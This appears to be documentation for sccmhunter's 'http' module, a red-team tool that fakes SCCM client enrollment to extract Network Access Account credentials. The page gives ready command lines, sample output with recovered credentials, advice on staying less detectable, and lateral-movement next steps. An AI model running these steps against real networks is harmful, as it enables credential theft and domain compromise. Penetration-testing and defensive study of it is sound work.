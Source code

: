 ```yaml
---
title: 'HTTP Client Enrollment (http)'
description: 'Abuse SCCM client enrollment to extract Network Access Account credentials from Management Points through spoofed client registration.'
icon: 'globe'
sidebarTitle: 'HTTP Client Enrollment'
---
```


The `http` module exploits SCCM's client enrollment process to extract Network Access Account credentials from Management Points. This technique combines [Adam Chester's](https://github.com/xpn/sccmwtf) research with [skelsec's deobfuscator](https://github.com/xpn/sccmwtf/pull/3) to spoof legitimate client enrollment and retrieve sensitive policy information.

<Info>
This attack leverages the fact that SCCM clients automatically receive Network Access Account credentials through policy requests, allowing attackers to extract these credentials by masquerading as legitimate clients.
</Info>

## Attack Overview

The HTTP client enrollment attack works by:

1. **Machine Account Creation**: Creating a new machine account in Active Directory (or using existing credentials)
2. **Client Registration**: Registering with Management Points as a legitimate SCCM client
3. **Policy Request**: Requesting client policies that contain Network Access Account credentials
4. **Credential Extraction**: Decrypting and extracting the credentials from the policy response

<Warning>
This attack requires machine account privileges. The `-auto` flag will automatically create a machine account if you have sufficient privileges, or you can provide existing machine account credentials.
</Warning>

## Troubleshooting Common Issues

<Accordion title="'NoneType' object has no attribute split Error">
**Cause**: This error typically occurs when the policy is not immediately available after registration.

**Solutions**:
- Increase sleep time with the `-sleep` flag (default: 10 seconds)
- Use manual policy request with `-mp` and `-uuid` flags
- Wait for SCCM database updates to complete
- Check for proxy interference in network communications

**Root Causes**:
- SCCM database performance issues
- Network proxy delays
- Management Point processing lag
- Timing synchronization issues
</Accordion>

## Prerequisites

<Card title="Requirements" icon="checklist">
- Valid Active Directory credentials
- Ability to create machine accounts OR existing machine account credentials
- Network access to discovered Management Points
- Previous enumeration data from [`find`](/enumeration/find) and [`smb`](/enumeration/smb) modules
</Card>

## Command Syntax

<CodeGroup>
```bash Command Format
python3 sccmhunter.py http [OPTIONS]
```

```bash Automatic Enrollment
python3 sccmhunter.py http -u administrator -p P@ssw0rd -d internal.lab -dc-ip 10.10.100.100 -auto
```

```bash Manual with Machine Credentials
python3 sccmhunter.py http -u administrator -p P@ssw0rd -d internal.lab -dc-ip 10.10.100.100 -cn MACHINE$ -cp MachinePassword
```

```bash Manual Policy Request
python3 sccmhunter.py http -u administrator -p P@ssw0rd -d internal.lab -dc-ip 10.10.100.100 -mp mp.internal.lab -uuid GUID
```
</CodeGroup>

## Parameters

<Accordion title="Authentication Parameters">
| Parameter | Description | Example |
|-----------|-------------|---------|
| `-u` | Username for authentication | `administrator` |
| `-p` | Password for authentication | `P@ssw0rd` |
| `-d` | Target domain name | `internal.lab` |
| `-dc-ip` | Domain controller IP or FQDN | `10.10.100.100` |
| `-hashes` | NT:LM hash for authentication | `aad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76` |
| `-k` | Use Kerberos authentication | |
| `-no-pass` | Don't prompt for password | |
| `-aes` | AES key for Kerberos (128/256 bits) | |
| `-ldaps` | Use LDAPS instead of LDAP | |
</Accordion>

<Accordion title="Machine Account Options">
| Parameter | Description | Example |
|-----------|-------------|---------|
| `-auto` | Automatically create machine account and extract policies | |
| `-cn` | Existing machine account name | `DESKTOP-ABC123$` |
| `-cp` | Machine account password | `RandomPassword123` |
</Accordion>

<Accordion title="Manual Operation Options">
| Parameter | Description | Example |
|-----------|-------------|---------|
| `-uuid` | Registration UUID for manual policy request | `7E7CC94B-E056-45C8-A2D9-03AD3114AE1F` |
| `-mp` | Specific Management Point to target | `mp.internal.lab` |
| `-sleep` | Wait time between registration and policy request (seconds) | `20` |
| `-debug` | Enable verbose logging | |
</Accordion>

<Tip>
Use the `-auto` flag for fully automated attacks when you have sufficient privileges to create machine accounts. For stealth or when using existing credentials, use the manual approach with `-cn` and `-cp`.
</Tip>

## Usage Examples

<Accordion title="Automatic Machine Account Creation and Credential Extraction">
**Fully automated attack using account with machine creation privileges**

```bash
python3 sccmhunter.py http -u administrator -p P@ssw0rd -d internal.lab -dc-ip 10.10.100.100 -auto
```

**Expected Output:**
```
[19:25:31] INFO     [*] Searching for Management Points from database.
[19:25:32] INFO     [+] Found http://mp.internal.lab/ccm_system_windowsauth
[19:25:32] INFO     [+] Found http://sccm.internal.lab/ccm_system_windowsauth
[19:25:32] INFO     [+] Found http://sccm2.internal.lab/ccm_system_windowsauth
[19:25:33] INFO     [+] Found http://active.internal.lab/ccm_system_windowsauth
[19:25:33] INFO     [*] User selected auto. Attempting to add a machine account then request policies.
[19:25:36] INFO     [+] DESKTOP-KS233C4P$ created with password: K2bNRZJxE0lf
[19:25:36] INFO     [*] Attempting to grab policy from mp.internal.lab
[19:25:37] INFO     [*] Done.. our ID is 7FB2729E-0E61-4CB7-A74A-5AD3170F1A35
[19:25:37] INFO     [*] Waiting 10 seconds for database to update.
[19:25:48] INFO     [+] Got NAA credential: lab\administrator:P@ssw0rd
[19:25:48] INFO     [+] Got NAA credential: lab\administrator:P@ssw0rd
[19:25:48] INFO     [+] Done.. decrypted policy dumped to /root/.sccmhunter/logs/loot/mp_naapolicy.xml
```

<Info>
The automatic mode creates a new machine account, registers with all discovered Management Points, and extracts Network Access Account credentials. The decrypted policy is saved for further analysis.
</Info>
</Accordion>
<Accordion title="Manual Attack with Existing Machine Credentials">
**Use pre-existing machine account credentials for stealthy operations**

```bash
python3 sccmhunter.py http -u administrator -p P@ssw0rd -d internal.lab -dc-ip 10.10.100.100 -cn wikidemo$ -cp P@ssw0rd
```

**Expected Output:**
```
[21:14:28] INFO     [*] Searching for Management Points from database.
[21:14:29] INFO     [+] Found http://mp.internal.lab/ccm_system_windowsauth
[21:14:30] INFO     [+] Found http://sccm.internal.lab/ccm_system_windowsauth
[21:14:31] INFO     [+] Found http://sccm2.internal.lab/ccm_system_windowsauth
[21:14:32] INFO     [+] Found http://active.internal.lab/ccm_system_windowsauth
[21:14:32] INFO     [*] Attempting to grab policy from mp.internal.lab
[21:14:34] INFO     [*] Done.. our ID is 7E7CC94B-E056-45C8-A2D9-03AD3114AE1F
[21:14:34] INFO     [*] Waiting 10 seconds for database to update.
[21:14:45] INFO     [+] Got NAA credential: lab\administrator:P@ssw0rd
[21:14:45] INFO     [+] Got NAA credential: lab\administrator:P@ssw0rd
[21:14:45] INFO     [+] Done.. decrypted policy dumped to /root/.sccmhunter/logs/loot/mp_naapolicy.xml
```

<Tip>
Using existing machine credentials avoids creating new accounts and may be less detectable. Record the UUID for potential future policy requests.
</Tip>
</Accordion>

<Accordion title="Manual Policy Request from Previous Registration">
**Request policies using previously obtained registration UUID**

```bash
python3 sccmhunter.py http -u administrator -p P@ssw0rd -d internal.lab -dc-ip 10.10.100.100 -mp mp.internal.lab -uuid 7E7CC94B-E056-45C8-A2D9-03AD3114AE1F
```

**Expected Output:**
```
[21:16:19] INFO     Submitting manual policy request from previous registration 7E7CC94B-E056-45C8-A2D9-03AD3114AE1F
[21:16:20] INFO     [+] Got NAA credential: lab\administrator:P@ssw0rd
[21:16:20] INFO     [+] Got NAA credential: lab\administrator:P@ssw0rd
[21:16:20] INFO     [+] Done.. decrypted policy dumped to /root/.sccmhunter/logs/loot/mp_naapolicy.xml
```

<Warning>
Manual policy requests are useful when timing issues occur during initial registration. This allows you to retry policy extraction without re-registering the client.
</Warning>
</Accordion>

## Attack Analysis

<Card title="Understanding Network Access Account Credentials" icon="key">
The extracted Network Access Account (NAA) credentials provide:

- **Domain Authentication**: Access to network resources during OS deployment
- **Share Access**: Read access to distribution point content shares
- **Lateral Movement**: Potential for further domain compromise
- **Task Sequence Variables**: Additional secrets from deployment configurations
</Card>

<CardGroup cols={2}>
<Card title="Operational Security" icon="shield-exclamation">
**Detection Considerations:**
- Machine account creation may trigger security alerts
- HTTP traffic to Management Points may be logged
- Policy requests create entries in SCCM logs
- Consider using existing machine accounts when possible
</Card>

<Card title="Output Files" icon="file-text">
**Generated Artifacts:**
- Decrypted policy XML files
- Registration UUIDs for future use
- Network Access Account credentials
- Task sequence variable dumps
</Card>
</CardGroup>

## Troubleshooting Guide

<Accordion title="Common Error Messages and Solutions">
**'NoneType' object has no attribute split**
- Increase `-sleep` value to 20-30 seconds
- Try manual policy request with saved UUID
- Check Management Point availability

**Authentication failures**
- Verify machine account creation permissions
- Confirm machine account credentials are correct
- Check Kerberos vs NTLM authentication requirements

**No Management Points found**
- Run [`find`](/enumeration/find) module first to discover MPs
- Verify Management Points are accessible
- Check network connectivity to HTTP endpoints
</Accordion>

## Next Steps

<CardGroup cols={3}>
<Card title="Credential Usage" icon="arrow-right">
Use extracted NAA credentials for:
- SMB share enumeration
- Distribution Point access
- Further lateral movement
</Card>

<Card title="MSSQL Exploitation" icon="database" href="/sccmhunter-docs/exploitation/mssql">
Leverage credentials for database attacks and privilege escalation
</Card>

<Card title="DPAPI Extraction" icon="lock" href="/sccmhunter-docs/exploitation/dpapi">
Extract additional secrets from client systems using local admin access
</Card>
</CardGroup>
